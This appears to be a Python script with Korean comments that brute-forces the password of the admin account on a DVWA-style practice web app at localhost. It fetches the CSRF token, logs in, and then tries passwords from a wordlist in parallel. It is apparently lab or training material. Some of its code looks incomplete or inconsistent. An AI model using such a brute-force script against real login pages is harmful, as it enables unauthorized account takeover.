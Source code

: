 ```python
@return Session 객체
'''
def session_set():
    with requests.Session() as s:
        url = "http://localhost/login.php"
        login_info = {
            "username": "admin",
            "password": "password",
            "Login": "Login",
            }

        user_token = bs4.BeautifulSoup(s.get(url).text, 'html.parser').select('input[name="user_token"]')[0]['value']
        login_info['user_token'] = user_token       # create user_token

        s.post(url, data=login_info)

        return s


'''
medium level의 brut force메뉴 에서 username: admin인 상태로 password brut force진행
get요청을 보낸 후 응답코드 200과 response.text값 안에 'Welcome to the password protected area'라는 문자열이 있을경우
현 password 반환

@param 문자열 리스트
@return 로그인이 성공한 password
'''
def brut_force(passwordList):
    s = session_set()
    url = "http://localhost/vulnerabilities/brute/"
    level = "medium"
    head = {"PHPSESSID": s.cookies['PHPSESSID'], "security": level}

    for password in passwordList:
        param = f"?username=admin&password={password}&Login=Login"
        payload = url+param
        print("input password:",password)
        response = requests.get(payload, cookies=head)
        # print(response.cookies)
        # print(response.text)
        if (response.status_code == 200 and 'Welcome to the password protected area' in response.text):
            return password
        


if __name__ == '__main__':
    num_cores = 8
    pool = Pool(num_cores)
    filename = 'tools/passwordlist.txt'
    tasks = read_file(filename)
    results = pool.map(brut_force, tasks)

    for result in results:
        if result:
            print("\n\nBruteforce SUCCESS!!")
            print("password is", result)
```

